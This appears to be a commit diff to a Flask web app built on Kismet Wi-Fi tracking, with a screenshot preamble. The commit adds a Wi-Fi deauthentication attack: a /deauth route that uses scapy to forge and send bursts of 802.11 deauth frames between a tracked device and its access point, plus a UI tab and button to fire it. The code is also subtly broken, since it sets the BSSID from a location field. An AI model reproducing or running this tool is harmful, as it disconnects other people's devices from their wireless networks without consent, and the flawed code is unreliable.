

Before and after one commit to GrokkedBandwidth/kismet_web_rssi-bar, a Flask app: page / in a window 1280 px wide. Shown: the part 147-447 px from the top of the page. Run offline with Flask 2, Linux system fonts and the light colour scheme; data that the repository does not hold is empty; some libraries are stand-ins or nearby versions.

Commit message:
Add Deauth functionality

```diff
--- a/mac.py
+++ b/mac.py
@@ -10,12 +10,14 @@ class Mac:
         self.last_seen_time = 0
         self.last_best_time = 0
         self.current_channel = 0
+        self.bssid = "FF:FF:FF:FF:FF:FF"
         self.url = f"http://{self.username}:{self.password}@{self.IP}:2501/"
         self.source_params = {
             'fields': [
                 'kismet.datasource.channels',
                 'kismet.datasource.uuid',
                 "kismet.datasource.interface",
+                "kismet.datasource.capture_interface",
                 "kismet.datasource.hopping",
                 "kismet.datasource.channel",
                 "kismet.datasource.hop_channels"
@@ -29,6 +31,7 @@ class Mac:
                 "kismet.device.base.channel",
                 'kismet.device.base.location/kismet.common.location.last/kismet.common.location.geopoint',
                 'kismet.device.base.key',
+                "dot11.device/dot11.device.last_bssid",
                 'kismet.common.seenby.uuid'
             ],
             'datatable': True
@@ -70,7 +73,7 @@ class Mac:
                         'channels': item['kismet.datasource.channels'],
                         'hoprate': 5
                     }
-
+                    print(params['channels'])
                     requests.post(
                         url=f"{self.url}datasource/by-uuid/{uuid}/set_channel.cmd",
                         json=params)
--- a/main.py
+++ b/main.py
@@ -3,6 +3,9 @@ from flask import Flask, render_template, Response, redirect, url_for, request
 from flask_bootstrap import Bootstrap
 import json
 import time
+import scapy.layers.dot11
+from scapy.all import sendp
+
 from mac import Mac
 from random import randint
 
@@ -34,6 +37,7 @@ def df():
             results = mac.retrieve_mac()
             rssi = results[0]['kismet.common.signal.last_signal']
             mac.current_channel = results[0]['kismet.device.base.channel']
+            mac.bssid = results[0]['kismet.device.base.location/kismet.common.location.last/kismet.common.location.geopoint']
             response[0] = 120 - (int(rssi) * -1)
             response[1] = rssi
             response[2] = mac.current_channel
@@ -75,6 +79,38 @@ def survey_channels(uuid, option):
             pass
     return f"New channels set for {uuid}"
 
+@app.route("/deauth/<string:interface>/<string:reason>/<string:count>/<string:behavior>")
+def deauth(interface, reason, count, behavior):
+    interface = json.loads(interface)['interface']
+    reason = int(json.loads(reason)['reason'])
+    count = int(json.loads(count)['count'])
+    behavior = json.loads(behavior)['behavior']
+    print(interface, reason, count, behavior)
+
+    def shoot():
+        dot11_bssid = scapy.layers.dot11.Dot11(
+            type=0,
+            subtype=12,
+            addr1=mac.mac,
+            addr2=mac.bssid,
+            addr3=mac.bssid,
+        )
+        dot11_client = scapy.layers.dot11.Dot11(
+            type=0,
+            subtype=12,
+            addr1=mac.bssid,
+            addr2=mac.mac,
+            addr3=mac.bssid
+        )
+        deauth_frame = scapy.layers.dot11.Dot11Deauth(reason=reason)
+        frame_bssid = scapy.layers.dot11.RadioTap() / dot11_bssid / deauth_frame
+        frame_client = scapy.layers.dot11.RadioTap() / dot11_client / deauth_frame
+        sendp(frame_bssid, iface=interface, count=count, inter=0.100)
+        sendp(frame_client, iface=interface, count=count, inter=0.100)
+
+    shoot()
+    return f"{count} deauths sent to {mac.mac} from {mac.bssid}"
+
 @app.route('/test', methods=['POST', 'GET'])
 def test():
     def generate():
--- a/requirements.txt
+++ b/requirements.txt
@@ -1,3 +1,4 @@
-Flask==2.2.2
+Flask==2.2.3
 Flask_Bootstrap==3.3.7.1
 requests==2.28.1
+scapy==2.5.0
--- a/static/css/clean.css
+++ b/static/css/clean.css
@@ -25,7 +25,20 @@ hr {
     flex-direction: column;
     justify-content: center;
     align-items: center;
+    margin: 2% 0;
 }
+.deauth-container {
+    display: flex;
+    justify-content: center;
+    margin: 1% 0;
+}
+.deauth-option {
+    margin: 0 2%;
+}
+.deauth-input {
+    border-radius: 5%;
+}
+
 .pre-select-options {
     display: flex;
     justify-content: space-between;
--- a/static/js/index.js
+++ b/static/js/index.js
@@ -191,6 +191,25 @@ $('a.four').on('click', function(e) {
 };
 xhr.send();
 });
+$('button.deauth').on('click', function(e) {
+    e.preventDefault();
+    var interface = e.currentTarget.parentNode.children[0].textContent;
+    console.log(interface)
+    var reason = e.currentTarget.parentNode.children[1].value;
+    var count = e.currentTarget.parentNode.children[2].value;
+    var behavior = e.currentTarget.parentNode.children[3].children[0].checked;
+    var xhr = new XMLHttpRequest();
+    var url = "deauth/" + encodeURIComponent(JSON.stringify({"interface": interface})) + "/" + encodeURIComponent(JSON.stringify({"reason": reason})) + "/" + encodeURIComponent(JSON.stringify({"count": count})) + "/" + encodeURIComponent(JSON.stringify({"behavior": behavior}));
+    xhr.open("GET", url, true);
+    console.log(url)
+    xhr.setRequestHeader("Content-Type", "application/json");
+    xhr.onreadystatechange = function () {
+    if (xhr.readyState === 4 && xhr.status === 200) {
+        console.log("worked");
+    }
+    };
+    xhr.send();
+    });
 
 $('#df').on('click', function(e) {
     console.log(e);
--- a/templates/index.html
+++ b/templates/index.html
@@ -47,7 +47,16 @@
             </div>
         </div>
         <hr>
-         <div class="interface-container">
+         <nav>
+          <div class="nav nav-tabs" id="nav-tab" role="tablist">
+            <button class="nav-link active" id="nav-home-tab" data-bs-toggle="tab" data-bs-target="#nav-home" type="button" role="tab" aria-controls="nav-home" aria-selected="true">Home</button>
+            <button class="nav-link" id="nav-profile-tab" data-bs-toggle="tab" data-bs-target="#nav-profile" type="button" role="tab" aria-controls="nav-profile" aria-selected="false">Deauth</button>
+            <button class="nav-link" id="nav-contact-tab" data-bs-toggle="tab" data-bs-target="#nav-contact" type="button" role="tab" aria-controls="nav-contact" aria-selected="false">Contact</button>
+          </div>
+        </nav>
+        <div class="tab-content" id="nav-tabContent">
+          <div class="tab-pane fade show active" id="nav-home" role="tabpanel" aria-labelledby="nav-home-tab">
+              <div class="interface-container">
             {% for item in channels %}
                 <h4>{{item['kismet.datasource.interface']}}</h4>
                 <div class="selection-container">
@@ -73,6 +82,34 @@
                 </div>
             {% endfor %}
         </div>
+            </div>
+            <div class="tab-pane fade" id="nav-profile" role="tabpanel" aria-labelledby="nav-profile-tab">
+                <div class="interface-container">
+                    {% for item in channels %}
+                        <div class="deauth-container">
+                            <h4 class="deauth-option">{{item["kismet.datasource.capture_interface"]}}</h4>
+                            <input class="deauth-option deauth-input" placeholder="Reason Code">
+                            <input class="deauth-option deauth-input" placeholder="Count">
+                            <div class="form-check form-switch">
+                                <input class="form-check-input" type="checkbox" id="flexSwitchCheckChecked" checked>
+                                <label class="form-check-label" for="flexSwitchCheckChecked">Aireplay behavior</label>
+                            </div>
+                            <button class="deauth-option btn btn-danger deauth">Deauth</button>
+                        </div>
+
+                    {% endfor %}
+
+                </div>
+
+
+
+
+
+
+          </div>
+          <div class="tab-pane fade" id="nav-contact" role="tabpanel" aria-labelledby="nav-contact-tab">...</div>
+        </div>
+
     </div>
     <script src="{{ url_for('static', filename='js/bootstrap.bundle.min.js') }}" charset="utf-8"></script>
     <script src="{{ url_for('static', filename='js/jquery.js') }}" charset="utf-8"></script>
```
